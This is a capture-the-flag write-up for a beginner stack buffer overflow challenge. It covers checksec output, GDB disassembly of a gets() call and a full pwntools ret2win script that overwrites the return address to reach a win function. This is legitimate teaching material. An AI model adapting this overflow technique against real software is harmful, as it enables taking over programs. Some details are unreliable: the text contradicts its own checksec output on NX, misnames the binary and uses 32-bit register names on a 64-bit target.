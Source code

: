 ## CTF Challenge Writeup: Easy Peasy - Binary Exploitation

- **Challenge Name:** Easy Peasy  
- **Category:** Binary Exploitation  
- **Points:** 100  
- **Author:** BitR13x
- **Difficulty:** Beginner

**Description:**
Welcome to "Easy Peasy," a beginner-level binary exploitation challenge! Your task is to exploit a vulnerable binary and gain control of the eip register. The flag is located in a file named "flag.txt" on the system. Read the contents of "flag.txt" and submit it to the CTF platform to claim your points.

**Challenge Binary:** [ezpz](https://traboda-arena-87.s3.amazonaws.com/files/attachments/ezpz_d016f92c-e33f-4ea0-9105-eb810bfe783d?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIA6GUFVMV6HO3NYL6Z%2F20230807%2Fap-south-1%2Fs3%2Faws4_request&X-Amz-Date=20230807T023644Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Signature=268122cbf4717f164e612e2846a87214dabf0890d59bdac6977cf0fc8475c8da)

**Hints:**

1. Check for buffer overflows or other memory-related vulnerabilities.
2. Use a debugger to analyze the behavior of the binary during execution.
3. Research about Return-Oriented Programming (ROP) and how it can be applied to bypass certain security mechanisms.

**Requirements:**

- Linux operating system (recommended: Ubuntu)
- Basic knowledge of assembly language and binary exploitation techniques.

**Writeup:**

**Step 1: Understanding the Binary:**
The first step is to download the challenge binary and understand its functionality. We can use tools like `file` and `checksec` to get some initial information about the binary:

```bash
$ file pzpz
easy_peasy: ELF 64-bit LSB executable, x86-64, ...

$ checksec ezpz
[*] '/home/kali/workspace/DeconstruCT.F-writeups/EasyPeasy/ezpz'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

The output indicates that it is a 64-bit ELF binary without full security measures (Partial RELRO and NX enabled) except canary, but with further analyzation with cutter showed that there is no worries about canary.

**Step 2: Initial Analysis:**
Run the binary to see its behavior:

```bash
$ ./ezpz
Please enter the super secret password to display the flag:
AAAAAA
Invalid password, try again
```

It seems that the binary is a simple program that asks for a password. By further investigation in cutter or ghidra, we can see there is also `win` function which should return flag. And also good to keep in mind that the addresses remain static.

**Step 3: Identifying Vulnerability:**
Next, we need to identify vulnerabilities that can be exploited to gain control of the program. Common vulnerabilities include buffer overflows, format string vulnerabilities, and unsafe input handling.

Since it's a beginner-level challenge, let's try entering a long input and see if it causes any unexpected behavior:

```bash
$ ./ezpz
Please enter the super secret password to display the flag:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./ezpz
```

The program accepts the input and report segmentation fault error, suggesting there might be a buffer overflow vulnerability and we are overwriting the execution. When taking closer look in cutter or ghidra, we can see that buffer is 32byte long also good to keep in mind.

**Step 4: Exploiting the Vulnerability:**
Let's use a debugger like GDB to further analyze the program and identify the exact location of the vulnerability.

```bash
$ gdb ./ezpz
(gdb)➤ disassemble vuln
Dump of assembler code for function vuln:
   0x0000000000401870 <+0>:	endbr64
   0x0000000000401874 <+4>:	push   rbp
   0x0000000000401875 <+5>:	mov    rbp,rsp
   0x0000000000401878 <+8>:	sub    rsp,0x20
   0x000000000040187c <+12>:	lea    rax,[rbp-0x20]
   0x0000000000401880 <+16>:	mov    rdi,rax
   0x0000000000401883 <+19>:	mov    eax,0x0
   0x0000000000401888 <+24>:	call   0x4124a0 <gets>
   0x000000000040188d <+29>:	nop
   0x000000000040188e <+30>:	leave
   0x000000000040188f <+31>:	ret

```

By analyzing the main function's assembly, we can identify the vulnerable `gets()` function and the potential exploitability.

**Step 5: Crafting the Exploit:**
With the vulnerability identified, we can now craft our exploit. Since this is a beginner-level challenge, it might not require advanced techniques like ROP.

To craft the payload I used pwntools and python:

```py
from pwn import *
from pwn import p64

ip = "ip_address"
port = "port"

#p = remote(str(ip),int(port)) # uncomment to connect on remote ip
p = process("./ezpz")
#gdb.attach(p, gdbscript='continue') # option to attach gdb

junk = b"A"*40

#? The JMP ESP instruction "0x625011af"
#? eip = "\xaf\x11\x50\x62"

# address of win function
eip = p64(0x004017ea) # translation into little-endian and 64bit address

#nops = "\x90" * 16
payload = junk + eip # + nops# + shellcode

p.recvline() # waiting on recv
p.sendline(payload) # send
p.interactive() # interactive shell
```

So straight forward, importing pwntools and creating process as `p`, now we know that buffer is 32byte long + 8 for a padding to move on stack. The stack should pop the address and keep executing this address instead.

When you are not sure how long is `buffer` and about the padding fuzzing is most of the time a good way.

Now we need an address of `win` function to know where to redirect execution, just use gdb.

```bash
(gdb)➤ disassemble win
Dump of assembler code for function win:
   0x00000000004017e5 <+0>:	endbr64
   0x00000000004017e9 <+4>:	push   rbp
   0x00000000004017ea <+5>:	mov    rbp,rsp
   0x00000000004017ed <+8>:	sub    rsp,0x50
   0x00000000004017f1 <+12>:	lea    rax,[rip+0x96810]        # 0x498008
   0x00000000004017f8 <+19>:	mov    rsi,rax
   0x00000000004017fb <+22>:	lea    rax,[rip+0x96808]        # 0x49800a
   0x0000000000401802 <+29>:	mov    rdi,rax
   0x0000000000401805 <+32>:	call   0x4121f0 <fopen64>
   0x000000000040180a <+37>:	mov    QWORD PTR [rbp-0x8],rax
...
```

We can't take the first two address so the stack is not overflowed and don't segfault before printing the flag.

**Step 6: Retrieve the Flag:**
Once the exploit is crafted, run the binary with the exploit payload to gain `flag.txt`.

```bash
$ ./bufferoverflow.py
[Flag will be printed here]
```

**Step 7: Writeup Submission:**
Document the steps you followed to exploit the binary, including the vulnerable function, the payload used, and how you gained control over the program.

Happy Hacking!
